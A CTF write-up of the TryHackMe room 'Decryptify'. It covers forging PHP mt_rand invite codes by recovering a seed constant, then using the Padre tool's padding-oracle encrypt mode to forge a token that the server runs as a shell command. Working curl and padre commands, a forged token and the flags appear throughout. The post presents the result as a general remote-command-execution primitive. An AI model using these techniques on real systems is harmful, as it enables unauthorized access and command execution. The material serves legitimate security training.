



| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|Decryptify ||

Decryptify is a medium web exploitation box with a crypto spine. The first flag comes from predicting an invite code generated by PHP's `mt_rand`, and the second from a padding oracle that you run in reverse: instead of decrypting a token, you forge a brand new ciphertext that decrypts to a shell command. It pairs naturally with [Attacking ECB Oracles](/post/thm-room-attackingecboracles/), which drills the chosen-plaintext side of the same block-cipher weakness.

Everything below runs from the Mac over the TryHackMe VPN. The target was directly reachable on port 1337, so no AttackBox was needed. One honest note up front: I first misread the cipher as AES-ECB from a buggy hand-rolled oracle and burned real time on the wrong model. The tool-assisted approach below is the clean path, and the block length it reports (8, not 16) is what corrects that mistake.

## Recon: two login forms and an obfuscated API client

The site on port 1337 is a PHP login page with two tabs: a username plus invite code form, and an email plus invite code form. The page also loads `/js/api.js`, which is obfuscated in the usual obfuscator.io style (a rotated hex string array). Deobfuscating it recovers a hardcoded API password that unlocks `/api.php`.

`api.php` is the gift. It documents exactly how invite codes are generated:

```text
  seed = hexdec( strlen(email) + CONSTANT + hexdec(substr(email,0,8)) )
  mt_srand(seed)
  invite_code = base64_encode( mt_rand() )
```

That is a deterministic function of the email and one unknown server `CONSTANT`. Seed the same way and you reproduce any user's code. The only missing value is `CONSTANT`.

Two more files leak what is needed. `/logs/app.log` exposes an existing user and their invite code:

```text
  alpha@fake.thm   MTM0ODMzNzEyMg==
```

That base64 decodes to the integer `1348337122`, which is `mt_rand()` for alpha's seed. With one known (email, output) pair, recovering `CONSTANT` is a small brute force.

## Flag 1: recover the constant and forge an invite code

PHP's `mt_rand` is a Mersenne Twister, so reimplementing it (MT19937, the 7.1+ seeding) in Python lets me reproduce the server's output offline. There is one PHP quirk that matters: `hexdec` is applied to a string that is itself a decimal sum, so the inner and outer `hexdec` calls both run on digit strings. With alpha as the oracle, I sweep `CONSTANT` until the predicted `mt_rand()` equals `1348337122`.

```text
  # recover CONSTANT from alpha's known code
  alpha@fake.thm -> mt_rand = 1348337122
  CONSTANT found = 99999

  # forge the active user's invite code
  hello@fake.thm -> mt_rand = 461589891 -> base64 = NDYxNTg5ODkx
```

The constant is **99999**. Feeding `hello@fake.thm` through the same function yields the invite code `NDYxNTg5ODkx`. Logging in with that email and forged code lands on the dashboard:

```bash
  curl -s -c cj.txt http://TARGET:1337/ -o /dev/null
  curl -s -b cj.txt -c cj.txt -i http://TARGET:1337/index.php \
    --data-urlencode "invite_username=hello@fake.thm" \
    --data-urlencode "invite_code=NDYxNTg5ODkx"
  # -> 302 Found, Location: dashboard.php, sets a role cookie
```

The dashboard header prints the first flag:

```text
  Welcome, hello@fake.thm! - Flag: THM{CryptographyPwn007}
```

The first flag is **THM{CryptographyPwn007}**.





## The date field: a padding oracle hiding in the footer

The dashboard footer carries a hidden form field and renders a year next to the copyright:

```html
  <footer>
    <p>&copy; <strong>2026</strong> Decryptify</p>
    <form method="get">
      <input type="hidden" name="date" value="QqFSsjrqDRPlzGPv3Kc5uv8Z5GkezDqIlovkNfSwFrQ=">
    </form>
  </footer>
```

Requesting `dashboard.php?date=<token>` decrypts the token and runs the decrypted string as a command, printing its output where the year normally sits. The token is base64 and decodes to 32 bytes. Tampering with the last bytes produces an OpenSSL padding error in the response body:

```text
  Padding error: error:06065064:digital envelope routines:EVP_DecryptFinal_ex:bad decrypt
```

A distinguishable valid-versus-invalid-padding response is the definition of a padding oracle. Two things decide the whole attack here: the oracle lets me ask "is this plaintext's padding valid", and the server re-encrypts and re-runs whatever the token decrypts to. That is enough to forge my own ciphertext for a plaintext I choose, no key required.

## Flag 2: forge ciphertext with Padre and get RCE

Rather than reuse my own buggy oracle code, I used [Padre](https://github.com/glebarez/padre), which does padding-oracle decryption and encryption (CBC-R) cleanly. Install and point it at the `date` parameter, carrying the authenticated session cookies. Two operational notes: Padre fingerprints the oracle and the block size automatically, and the box's Apache is fragile under load, so I throttled to 8 connections.

```bash
  GOBIN=$HOME/go/bin go install github.com/glebarez/padre@latest

  padre -u "http://TARGET:1337/dashboard.php?date=\$" \
    -cookie "PHPSESSID=REDACTED; role=REDACTED" \
    -p 8 -enc 'cat /home/ubuntu/flag.txt'
```

Padre's fingerprint output is the detail that unwound my earlier wrong turn:

```text
  [+] successfully detected padding oracle
  [+] detected block length: 8
  [!] mode: encrypt
```



Block length **8**, not 16. This is an 8-byte block cipher in CBC mode (DES or 3DES family), not AES-ECB. In encrypt mode Padre walks backward through the blocks, using the oracle to choose each preceding ciphertext block so the whole thing decrypts to my chosen plaintext. It returns a forged token:

```text
  sVzSU8VrpH27MUtEs8ikmSS/rbc1dVObD0K+cDWYpgdyaWFpbG56cw==
```

Put that token in the `date` parameter and the server decrypts it to `cat /home/ubuntu/flag.txt`, runs it, and prints the result in the footer:

```bash
  curl -s -b "PHPSESSID=REDACTED; role=REDACTED" \
    "http://TARGET:1337/dashboard.php" -G \
    --data-urlencode "date=sVzSU8VrpH27MUtEs8ikmSS/rbc1dVObD0K+cDWYpgdyaWFpbG56cw=="
```

```text
  <footer>
    <p>&copy; <strong>THM{GOT_COMMAND_EXECUTION001}</strong> Decryptify</p>
  </footer>
```



The second flag is **THM{GOT_COMMAND_EXECUTION001}**. Swap the plaintext passed to `-enc` for any other command and you have a general RCE primitive.

## Takeaways

Two durable lessons from this box:

- A padding oracle is not only a decryption bug. If the application re-encrypts or re-executes whatever a token decrypts to, the same oracle becomes an encryption oracle (CBC-R) that lets you forge a ciphertext for any plaintext, with no key. Here that plaintext was a shell command. On a real target the same pattern shows up wherever an encrypted cookie, token, or parameter is round-tripped and a padding error is observable.
- Let the tool fingerprint the primitive before you commit to a mental model. I lost time assuming AES with 16-byte blocks; the cipher was an 8-byte block in CBC, and one line of Padre output said so. A quick `-b` autodetect would have saved the detour.

Room solved 100%: 1 task, 2 answers.
